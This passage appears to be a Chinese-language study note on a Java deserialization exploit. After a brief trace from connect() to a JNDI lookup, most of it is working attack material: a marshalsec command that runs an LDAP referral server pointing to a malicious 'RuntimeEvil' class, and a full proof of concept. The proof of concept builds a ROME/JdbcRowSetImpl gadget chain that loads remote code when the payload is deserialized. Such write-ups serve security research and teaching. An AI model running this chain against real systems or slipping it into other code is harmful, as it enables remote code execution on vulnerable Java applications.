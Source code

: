 connect里调用了InitialContext.lookup

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240924154357757.png)

进一步调用了getURLOrDefaultInitCtx(name).lookup(name)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240924154707166.png)

直接转JNDI注入了，本地恶意类Path起一个http服务，marshalsec起一个ldap服务：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/#RuntimeEvil 1099
```

POC：

```java
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import java.io.IOException;
import java.util.HashMap;
//HashMap<K,V>.readObject(ObjectInputStream)
//HashMap<K,V>.hash(Object)
//ObjectBean.hashCode()
//EqualsBean.hashCode()
//EqualsBean.beanHashCode()
//ToStringBean.toString()
//ToStringBean.toString(String)
//JdbcRowSetImpl.getDataSourceName
public class Rome_JdbcRowSetImpl {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSetImpl = new JdbcRowSetImpl();
        jdbcRowSetImpl.setDataSourceName("ldap://fake/#JNDI_RuntimeEvil");
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowSetImpl);
        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean,"godown");
        jdbcRowSetImpl.setDataSourceName("ldap://127.0.0.1:1099/#JNDI_RuntimeEvil");
        serialize(hashMap);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```
